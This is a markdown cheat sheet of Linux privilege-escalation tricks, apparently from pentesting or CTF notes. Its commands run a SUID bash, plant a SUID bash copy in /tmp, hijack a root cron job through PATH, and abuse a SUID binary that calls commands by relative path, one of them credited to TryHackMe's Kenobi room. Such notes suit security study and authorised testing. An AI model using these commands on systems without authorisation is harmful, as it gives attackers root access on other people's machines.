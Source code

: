 # Internet Search of Linux Version and "privilege escalation"
```bash
ubuntu 14.04 privilege escalation
```
# [PrivEsc with Meterpreter](../../../../Tools/Metasploit/README.md#Linux-PrivEsc)
# [See Linux Enumeration](../../../../Tools/Shells/Linux/README.md#System-Information)

# Potential Tricks
###### /bin/bash is a SUID binary
```bash
/bin/bash -p
```
###### Copy /bin/bash to /tmp
```bash
cp /bin/bash /tmp # Note that the copy is owned by the current user.
chmod +xs /tmp/bash
/tmp/bash
```

# CronJobs
##### CronJobs - PATH Environment Variable
```bash
cat /etc/crontab
# IF CronJobs includes a <file>.sh script and PATH includes user directory at start of path.

# Create <file>.sh in directory specified int he PATH.
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

# Make sure that the file is executable:
chmod +x <file>.sh

# Run rootbash to gain root access.
/tmp/rootbash -p
```

# PATH Environment Variable
##### Alternate PATH Environment Variable - THM from Kenobi
```bash
find / -perm -u=s -type f -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu # Calls other commands
/usr/bin/menu
# /usr/bin/menu appears to be a user defined menu, to call other commands.
# strings /usr/bin/menu to see if it calls commands with full paths.
strings /usr/bin/menu
# Returns:
curl -I localhost
uname -r
ifconfig
# /usr/bin/menu does not use full paths and executes as root.
# Copy a shell to /tmp/ replacing the name of one of the above commands.
# The menu will execute as root, launching a root shell.
```